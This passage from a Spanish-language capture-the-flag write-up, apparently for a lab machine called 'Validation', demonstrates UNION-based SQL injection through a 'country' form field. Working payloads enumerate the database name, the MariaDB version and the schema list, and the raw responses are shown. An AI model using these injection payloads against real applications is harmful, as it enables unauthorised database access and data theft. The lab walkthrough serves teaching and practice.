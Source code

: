 
![](/imagenes/Validation/validationsqlerror.png)


Se observa un error, esto nos quiere decir que es vulnerable a **SQL Injection**, así que probaremos payloads para ver si podemos enumerar información, por ejemplo. intentaremos utilizar union en la data:

```
username=test&country=Brazil' union select 'testing'-- -
```
En la respuesta en **raw** observamos que está testing:

```
<li class='text-white'>testing</li>
```

Por lo tanto, intentaremos enumerar la base de datos:

```
username=test&country=Brazil' union select database()-- -
```
```
<li class='text-white'>registration</li>
```

Observamos que la database tiene como nombre **registration**, podemos intentar enumerar la versión:


```
username=test&country=Brazil' union select version()-- -
```

```
<li class='text-white'>10.5.11-MariaDB-1</li>
```

También podemos enumerar las otras bases de datos dentro del sistema:

```
username=test&country=Brazil' union select schema_name from information_schema.schemata-- -
```
```
<li class='text-white'>information_schema</li><li class='text-white'>performance_schema</li><li class='text-white'>mysql</li><li class='text-white'>registration</li>
```
